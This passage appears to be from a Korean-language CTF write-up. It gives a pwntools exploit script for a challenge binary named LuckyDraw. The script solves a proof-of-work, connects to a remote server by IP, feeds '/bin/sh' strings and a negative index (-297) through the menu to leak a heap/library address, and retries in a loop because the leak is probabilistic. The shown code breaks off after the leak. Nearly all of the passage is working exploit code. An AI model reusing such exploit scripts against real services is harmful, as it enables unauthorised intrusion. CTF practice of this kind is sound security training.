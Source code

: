 ## Exploitation
heap layout이 좀 더러워서 leak이 확률적으로 된다.
가장 확률이 높게 측정된 오프셋으로 계산하도록 만들면 따인다.
```python
from pwn import *
sla = lambda x,y : p.sendlineafter(x,y)
rvu = lambda x : p.recvuntil(x)

class POW:
    hardness = 8
    level = 2

    def write(x):
        sys.stdout.write(x)
        sys.stdout.flush()

    def readline():
        return sys.stdin.readline().rstrip("\n")

    def verify_pow(challenge, solution, target):
        full_challenge = bytes.fromhex(challenge + solution)
        hash_result = hashlib.sha256(full_challenge).hexdigest()
        return hash_result.startswith(target)
    
    def solve_pow(challenge, prefix):
        for i in range(2**32):
            nonce = i.to_bytes(4, 'little')
            solution = bytes.fromhex(challenge) + nonce
            hash_result = hashlib.sha256(solution).hexdigest()
            if hash_result.startswith(prefix):
                return nonce.hex()
        raise Exception("PoW solution not found")


def solve_remote_pow(p):
    p.recvline()
    p.recvline()
    chall = p.recvline().strip().split(b' ')[-1]
    target = p.recvline().strip().split(b' ')[-1]
    print("[+] Solving Remote Pow . . .")
    solve = POW.solve_pow(chall.decode(), target.decode())
    p.sendlineafter(b"> ", solve)
    print(p.recvline())
while True:
    try:
        # context.log_level='debug'
        # p = remote('127.0.0.1', 8123)
        p = remote('13.124.126.206', 8123)
        context.binary = ELF('./for_user/LuckyDraw.cpython-310-x86_64-linux-gnu.so')
        solve_remote_pow(p)
        # print('solved')
        sla(b'> ', str(1))
        sla(b'> ', b'/bin/sh')
        sla(b'> ', str(2))
        sla(b'> ', b'/bin/sh')
        sla(b'> ', str(1))
        # no rsp 

        sla(b'> ', str(4))
        sla(b'> ', b'-297')
        rvu(b'\x1B[32m')
        leak = u64(rvu(b'\x1b')[:-1].ljust(8, b'\x00'))
        log.success(hex(leak))
```